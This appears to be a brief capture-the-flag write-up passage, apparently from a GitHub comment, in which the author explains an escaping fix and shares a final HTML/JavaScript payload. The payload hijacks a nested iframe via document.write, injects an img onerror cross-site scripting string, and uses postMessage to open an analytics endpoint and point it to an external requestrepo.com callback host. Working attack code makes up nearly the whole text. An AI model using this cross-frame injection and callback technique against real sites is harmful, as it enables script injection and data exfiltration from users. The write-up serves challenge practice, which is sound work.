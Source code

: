 Turns out I was supposed to use `\\\` instead of only `\` to escape a single quote `'` ... For some reason it worked for me locally but ig the error was in the post message to `analytics:3000` part which I didn't test bcs of the origin checks...


Final payload (prettified):
```javascript
<!DOCTYPE html>
<html>
<head>
    <title>Iframe Test</title>
</head>
<body>
    <iframe src="http://web:1337/ad.html" id="testFrame" width="800" height="600"></iframe>


    <script>
    const p = `const w=window.open(\\\'http://analytics:3000/integrate\\\', \\\'_blank\\\');setTimeout(() => {if (w) {w.postMessage({analytics:1,url:\\\'http://au3daluz.requestrepo.com\\\'}, \\\'*\\\');}} , 3000);`
    const payload = `<img src=x onerror="${p}">`
    const interval = setInterval(() => {
            try {
               
                window.frames[0].frames[0].location = "about:blank";
                console.log(payload)
                window.frames[0].frames[0].document.write(`<!DOCTYPE html>
                                            <html>
                                            <head>
                                                <title>Server Response<\/title>
                                            <\/head>
                                            <body>
                                                <script>
                                                        window.parent.postMessage({
                                                        payload: '${payload}'
                                                        }, '*'); 
                                                <\/script>
                                            <\/body>
                                            <\/html><\/script>`);
                
    
                console.log("SUCCESS!");
                
                clearInterval(interval);
                
            } catch (e) {
            }
        }, 0.1); 

    </script>
</body>
</html> 


```

Great chall!
